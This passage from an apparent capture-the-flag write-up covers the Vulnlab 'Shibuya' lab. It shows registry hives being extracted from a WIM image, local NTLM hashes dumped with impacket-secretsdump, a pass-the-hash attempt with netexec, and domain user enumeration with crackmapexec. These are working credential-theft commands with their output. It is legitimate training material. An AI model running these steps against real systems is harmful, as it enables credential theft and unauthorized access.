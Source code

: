 We couldn't find the file we wanted in `01`, but it was in `02`. We can start dumping from here. You could transfer it to Windows and use DISM. After some research, I found that we could also extract files using 7z, so I didn't bother with the transfer.

<pre class="language-bash"><code class="lang-bash">➜  Shibuya 7z e AWSJPWK0222-02.wim SAM SYSTEM SECURITY

7-Zip 24.09 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-11-29
 64-bit locale=C.UTF-8 Threads:4 OPEN_MAX:1024, ASM

Scanning the drive for archives:
1 file, 50660968 bytes (49 MiB)

<strong>&#x3C;SNIP>
</strong>Files: 3
Size:       17137664
Compressed: 50660968
</code></pre>

```bash
➜  Shibuya impacket-secretsdump -sam SAM -system SYSTEM -security SECURITY LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x2e971736685fc53bfd5106d471e2f00f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8dcb5ed323d1d09b9653452027e8c013:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:9dc1b36c1e31da7926d77ba67c654ae6:::
operator:1000:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
<SNIP>
```

From here, we're analyzing the hashes. Let's not get excited when we see the Administrator hash, it's not the hash for the machine we're looking for. :) Let's try the Operator hash.

```bash
➜  Shibuya netexec smb shibuya.vl -u operator -H <REDACTED>
SMB         10.10.64.180    445    AWSJPDC0522      [*] Windows Server 2022 Build 20348 x64 (name:AWSJPDC0522) (domain:shibuya.vl) (signing:True) (SMBv1:False)
SMB         10.10.64.180    445    AWSJPDC0522      [-] shibuya.vl\operator:<REDACTED>STATUS_LOGON_FAILURE 
```

Now, let's use CrackMapExec to extract the users and try these hashes.

```zsh
➜  Shibuya crackmapexec smb shibuya.vl -u svc_autojoin -p '<REDACTED>' --users --export $(pwd)/users.txt
```

```zsh
➜  Shibuya  sed -i "s/'/\"/g" users.txt
```

```zsh
➜  Shibuya jq -r '.[]' users.txt > userslist.txt
```
